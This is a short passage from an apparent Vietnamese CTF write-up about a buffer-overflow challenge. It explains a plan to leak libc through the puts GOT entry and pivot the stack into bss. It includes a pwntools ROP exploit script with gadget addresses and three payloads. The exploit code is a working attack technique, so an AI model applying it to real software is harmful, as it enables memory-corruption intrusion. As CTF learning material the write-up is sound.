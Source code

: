 ![leak](/assets/images/leak.png)

- ý tưởng của mình là trước hết sẽ ghi địa chỉ của hàm vuln vào địa chỉ sau khi leak libc xong trước , tiếp theo là ghi got puts vào bss và quay trở lại để in ra , nó sẽ trông như sau : 

tuy nhiên thì ở đây nó sẽ bị lỗi vì lúc này địa chỉ stack khá nhỏ 0x4040b0 so với 0x404000 nên các lệnh push sẽ trừ stack xuống và gây ra lỗi ...

```c
gets_gadget = 0x00000000004011b0
puts_gadget = 0x00000000004011d0
leave_ret = 0x00000000004011dd
bss = 0x404000+0x600
bss2 = 0x404000+0x400
input()
pl1 = flat(
        'a'*0x50,
        exe.got.puts+0x50+0x50,
        gets_gadget,
        )

p.sendlineafter(b'string\n',pl1)

pl2 = flat(
        exe.sym.vuln,
        exe.sym.vuln,
        'a'*0x40,
        bss2,
        gets_gadget,
        )
input()
p.sendline(pl2)

pl3 = flat(
        'a'*0x50,
        exe.got.puts + 0x50,
        puts_gadget,
        )
```